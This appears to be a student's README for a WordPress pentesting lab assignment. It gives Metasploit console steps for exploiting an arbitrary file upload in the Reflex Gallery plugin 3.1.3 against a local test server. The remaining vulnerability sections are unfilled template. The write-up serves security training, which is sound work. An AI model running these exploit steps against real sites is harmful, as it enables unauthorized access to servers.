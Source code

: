 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Arbitrary File Upload
  - [ ] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [ ] GIF Walkthrough: <img src="arbitrary_file.gif">
  - Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: -

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Screen To GIF

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.